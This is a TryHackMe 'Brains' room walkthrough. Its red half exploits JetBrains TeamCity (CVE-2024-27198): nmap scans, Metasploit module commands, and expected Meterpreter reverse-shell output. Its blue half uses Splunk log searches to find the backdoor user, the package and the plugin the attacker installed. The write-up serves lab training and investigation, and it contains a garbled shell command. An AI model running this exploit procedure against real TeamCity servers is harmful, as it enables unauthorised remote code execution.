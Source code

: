 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

<span style="color: red">RED exploit the server!</span>
# 1. What is the content of flag.txt in the user's home folder?

<Details>
      
# 1. First Step: run in the Terminal "nmap -p- *Target_IP_Address* "

```bash
nmap -p- 10.10.252.192
````
 1. "nmap" -> The network scanner tool
 2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
 3. "Target_IP_Address" -> The IP address of the target — in the case of the Brains room
      
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)
   
# What ports are open and why they matter: 
   1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
   2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
   3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.
   
# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 *Target_IP_Address* "
   ```bash
   nmap -sV -p 50000 10.10.252.192
   ```
   
# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
   
   *The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
   ```bash
   msfconsole
   ```
   1. "msfconsole" -> This launches the Metasploit interface.
   
   ```bash
   search teamcity
   ```
   1. "search teamcity" -> This will list available exploit modules related to TeamCity
   *Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*
   
#  Use the module:
   ```bash
   use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
   ```
# After loading an exploit module in Metasploit, you should always run: 
   ```bash
   options
   ```
   1. "options" -> This command shows you all the configurable parameters for the selected module
      
   ![Nmap Scan](Brain%20Room%20exploit%20run.JPG)
   
   *We need to set the correct options before running the exploit.*
   ```bash
   set RHOSTS 10.10.252.192     # Target IP address
   set RPORT 50000              # Target port where TeamCity is running
   ```
   *Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
   ```bash
   run   #or exploit
   ```
# Expected Output:
   *If the target is vulnerable and the configuration is correct, you should see output similar to this:*
   ```bash
   [*] Started reverse TCP handler on 10.10.X.X:4444
   [*] Sending stage (57971 bytes) to 10.10.X.X
   [*] Meterpreter session 1 opened ...
   ```
   *This confirms that you now have a meterpreter shell on the target machine!*
   
# Now That We Are in Meterpreter...Navigate the file system
   ```bash
   cd /home/cd ubuntu
   ls
   ```
   *Once you find it, read its contents*
   ```bash
   cat flag.txt
   ```
   ![Nmap Scan](Brain%20Room%20flag.JPG)
   
# ✅ CONGRATULATIONS!!! Now we have the first FLAG
# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file
   *Instead, here is a simulated example of what the output would look like:*
   
   ```bash
   meterpreter > cat flag.txt
   THM{redacted_for_policy}
   ```
   </Details>

# BLUE lets investigate!
# 1. What is the name of the backdoor user which was created on the server after exploitation?
<Details>
   
# First Step: Access the Web Application
   *Once the target machine is deployed, open your web browser and navigate to the following address:*
   ```bash
   10.10.249.14:8000
   ```
   1. "10.10.249.14" -> The target machine's IP address
   2. "8000" -> The port number
   
# Second Step: Access Search & Reporting
   
   *In the left-hand panel, you can see a list of installed apps within Splunk; Click on Search & Reporting*
   
   ![Nmap Scan](Brain%20Room%20Web%20search.JPG)
   
# Search for the Backdoor User
   *Now that we are inside Search & Reporting, it's time to use Splunk’s powerful query system to investigate the logs and answer the first question*
   *We're going to search inside the authentication logs (auth.log) for entries related to the creation of new users.*
   
   ```bash
   source="/var/log/auth.log" *new user* #Set Time Range to “All time”
   ```
   ![Nmap Scan](Brain%20Room%20F1.JPG)

   *Look specifically for an event that occurred on 7/4/24 in the logs*
# ✅ CONGRATULATIONS!!! The value in place of [NAME] is the flag answer to the challenge question*

</Details>

# 2. What is the name of the malicious-looking package installed on the server?
<Details>

# Lets find the Malicious-Looking Package Installed on the Server
  *we’ll search in Splunk’s logs for any package installation events*

  ```bash
  source="/var/log/dpkg.log" date_month="july" date_mday="4" *install*

  # source="/var/log/dpkg.log" → This is the Debian package manager log, which records installed
  # date_month="july" → We filter by the correct month.
  # date_mday="4" → And the specific day of the event: April 7th, 2024 is interpreted as July 4 based on the system’s locale format in Splunk
  # *install* → We're looking for any entries that contain the word install, which is part of the log line when a package is installed.
  ```

  *Why This Date? We know from previous investigation that the exploitation happened on 7/4/24*
  *In the search results, you'll see lines like: install [PACKAGE-NAME] [version]*

# ✅ CONGRATULATIONS!!! The [PACKAGE-NAME] that looks suspicious is our answer to the question

</Details>

# 3. What is the name of the plugin installed on the server after successful exploitation?
<Details>

# Identify the Plugin Installed After Exploitation
 *we need to check TeamCity’s activity logs, which record changes in the system, including plugin uploads or installations.*

 ```bash
source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" *plugin*

# source="/opt/teamcity/TeamCity/logs/teamcity-activities.log" → This is the log file where TeamCity activity events (like plugin actions) are recorded.
# *plugin* → We use a wildcard search to look for any lines that contain the word plugin, which likely appears during plugin installation.
```

# ✅ CONGRATULATIONS!!! Pro Tip: The plugin will appear in plain text, but when submitting the answer to the question, make sure to append .zip to the name

</Details>






